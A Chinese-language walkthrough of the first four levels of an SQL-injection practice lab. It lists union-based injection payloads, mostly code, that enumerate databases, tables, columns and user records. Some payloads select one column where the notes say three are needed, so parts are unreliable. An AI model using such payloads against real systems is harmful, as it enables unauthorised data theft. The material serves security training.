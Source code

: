 # 1-4
## 第一关
通过简单判断为字符型注入
使用union注入即可爆出数据
```
id=-1' order by 4 --+//查出有三列
id=-1' union select group_concat(schema_name separator ';') from information_schema.schemata--+    //group_concat(name separator ';')指定分隔符
id=-1' union select database(),2,3 --+
id=-1' union select group_concat(table_name separator ';') from information_schema.tables where table_schema=database()--+
id=-1' union select group_concat(column_name separator ';') from information_schema.columns where table_schema=database() and table_name='users'--+
id=-1' union select group_concat(user_id separator ';') from security.users--+
```
## 第二关
通过探测，判断为数字型注入
先尝试union注入，无waf，有回显，注入成功，注入手段和第一关相同，仅不需要`'`

```
id=-1 order by 4 --+//查出有三列
...
```
## 第三关
判定为字符型注入
通过报错信息尝试发现id被`('')`包裹
闭合该符号即可
```
id=1') order by 1--+
id=-1') union select group_concat(schema_name separator ';') from information_schema.schemata--+    
...
```
## 第四关
通过探测发现id被`("")`包裹
>You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near `'"-1"")`LIMIT 0,1' at line 1
```
id=1") order by 1--+
id=-1") union select group_concat(schema_name separator ';') from information_schema.schemata--+    
```
